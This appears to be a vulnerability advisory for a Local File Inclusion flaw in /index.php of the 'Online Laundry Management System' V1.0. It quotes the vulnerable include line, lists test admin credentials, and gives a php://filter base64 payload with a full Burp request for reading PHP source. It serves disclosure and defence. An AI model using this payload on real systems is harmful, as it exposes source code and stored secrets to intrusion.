

## Online Laundry Management System

## Local File Inclusion (/index.php)

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/index.php
```

A vulnerability was discovered in the page `/index.php`. An authenticated user has the capability to access and read PHP files from the operating system by exploiting a Local File Inclusion (LFI) vulnerability through the wrapper filter.

```php
# index.php
42 <?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>
43 <?php include $page.'.php' ?>
```

### Proof of Concept:

**Payload：**

```
php://filter/convert.base64-encode/resource=index
```

**Burp Request：**

```
GET /index.php?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: 192.168.150.131
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=odflank1n9b26vhfh1heeu1u4j
Connection: close


```

**Screenshot：**




